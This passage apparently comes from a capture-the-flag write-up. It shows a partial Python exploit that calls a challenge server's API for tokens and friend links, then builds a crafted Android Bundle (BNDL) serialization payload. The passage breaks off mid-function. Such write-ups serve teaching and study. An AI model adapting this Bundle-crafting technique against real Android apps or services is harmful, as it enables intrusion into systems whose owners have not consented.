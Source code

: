In order to craft the payload, I referred to my teammate [@NightShadow](https://twitter.com/NightShadowNSYY)'s [write-up](https://r3kapig.com/writeup/20200507-De1taCTF-BroadcastTest/)

Here is my final exploit:
```python
#!/usr/bin/env python3
from pwn import *
from base64 import b64encode
import requests


API_URL = 'http://35.246.216.38:8686/api.php'


def get_token(username, password):
    data = {
	'q': 'YOZ8AxBEUCgZEPG',
	'username': username,
        'password': password,
    }
    res = requests.post(url=API_URL, data=data)
    token = res.text
    return token


def get_friend_token(friend_name, token):
    data = {
        'q': 'KVY2ERbWMEGBgob', 
        'token': token,
        'friend_username': friend_name,
    }
    res = requests.post(url=API_URL, data=data)
    friend_token = res.text
    return friend_token


def send_moba(my_token, friend_token, data):
    data = {
        'q': '6xP0R1sioF5knfv', 
        'my_token': my_token,
        'friend_token': friend_token,
        'data': data,
    }
    res = requests.post(url=API_URL, data=data)


def add_friend(token, username):
    data = {
        'q': 'j0y2vm32GH6cfiP', 
        'token': token,
        'username': username,
    }
    res = requests.post(url=API_URL, data=data)


def create_payload(user_token, friend_token):
    p = bytearray()
    p += p32(0) # size
    p += b'BNDL' # bundle magic
    p += p32(6) # number of keys
    p += p32(len('moba_display_class')) # key length
    p += 'moba_display_class\x00'.encode('utf-16le') # key
    p += b'\x00' * (-len(p) % 4) # padding
    p += p32(0) # value type, 0 -> string
```